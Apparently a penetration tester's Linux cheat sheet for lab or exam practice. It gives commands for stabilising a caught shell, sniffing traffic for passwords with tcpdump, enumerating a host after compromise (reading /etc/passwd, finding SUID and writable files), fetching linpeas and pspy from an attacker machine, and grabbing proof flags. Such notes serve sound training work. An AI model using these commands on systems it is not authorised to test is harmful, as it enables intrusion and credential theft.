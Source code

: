 
## Upgrade shell

python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export SHELL=/bin/bash
export TERM=tmux-256color
stty rows 53 columns 189
reset

## tcpdump

sudo tcpdump -i tun0 src host 192.168.184.150 and port 4444
sudo tcpdump -i tun0 src host 192.168.184.150 and port dst 4444
sudo tcpdump -nvvvXi tun0 tcp port 8080
sudo tcpdump -i lo -A | grep "pass"
sudo tcpdump -i tun0 udp port 53
sudo tcpdump -i tun0 tcp port 443 and src host 192.168.x.y

## Enumeration manualy
id
cat /etc/passwd | grep sh$
ls -al /etc/shadow
ls -al /etc/passwd
cat /etc/issue
cat /etc/os-release
arch
uname -a
ss -ntpl
ip a
cat /etc/iptables/rules.v4
cat /etc/network/interfaces
ls -al /etc/cron*
cat /etc/crontab
ls -al /var/log/cron.log
ls -al /var/log/syslog
ls -al /home/*
env
find / -type f -writable $USER 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type f -user $USER 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'

find / -type f -perm -o+w 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type d -perm -o+w 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type f -perm -u=s 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'

getcap / -r 2>/dev/null
dpkg -l | grep compiler
ls -al /

whoami & ip a & cat /home/$USER/local.txt

## Enumeration automatique

curl $KALI/linpeas.sh -o linpeas.sh
curl $KALI/pspy64 -o pspy64
watch -n 1 "ps -aux | grep pass"
while true; do sleep 1 && ps -aux | grep pass; done
top -u root -c => filter command=/bin/sh
sudo -l
get proof

whoami & ip a & cat /root/proof.txt

## Find all files containing a specific text

grep -Rnw '/path/to/somewhere/' -e 'pattern'
-r or -R is recursive ; use -R to search entirely
-n is line number, and
-w stands for match the whole word.
-l (lower-case L) can be added to just give the file name of matching files.
-e is the pattern used during the search

## generate a hash using the crypt algorithm

openssl passwd w00t
mkpasswd -m md5crypt

## Tmux

### Configure

cat ~/.tmux.conf
set -g history-limit 10000
set -g allow-rename off
set-window-option -g mode-keys vi
Save pane
:capture-pane -S -
:save-buffer /path/filename.txt
tmux capture-pane -pS - >> /path/filename.txt
